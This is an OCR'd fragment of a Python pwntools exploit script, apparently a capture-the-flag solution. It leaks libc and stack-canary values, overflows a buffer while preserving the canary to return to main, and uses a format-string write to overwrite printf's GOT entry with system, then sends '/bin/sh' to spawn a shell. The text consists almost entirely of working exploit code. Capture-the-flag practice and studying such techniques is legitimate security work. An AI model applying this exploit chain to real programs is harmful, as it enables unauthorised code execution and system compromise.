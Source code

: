 ```py
  output = rl()[:-1].split(b'|')
  canary = int(output[1], 16)
  libc.address = int(output[0],16) - 0x273fc
  slog('Libc base',libc.address)
  slog('Canary', canary)

  pl = flat(
    b'A'*104,
    canary,
    b'B'*8,
    exe.sym.main
    )

  sla(b'> ',b'2')
  sla(b'> ', b'1')
  sla(b'> ', b'2000000')
  sla(b'> ', pl)

def write_printf_to_system():

    system = libc.sym.system
    printf = exe.got.printf

    slog('System',system)
    slog('Printf', printf)

    byte = (system >> 16) & 0xff
    two_bytes = system & 0xffff

    pl = f'%{byte}c%15$hhn'.encode()
    pl += f'%{two_bytes - byte - len(pl) + 0xc}c%16$hn'.encode()
    pl = pl.ljust(32, b'.')
    pl += p64(printf + 2)
    pl += p64(printf)

    sa(b'> ', pl)

def get_shell():

    sl(b'1')
    sl(b'/bin/sh\0')

def exploit():

  ret2main()
  write_printf_to_system()
  # ret2main()
  get_shell()

  interactive()

if __name__ == '__main__':
  exploit()
```
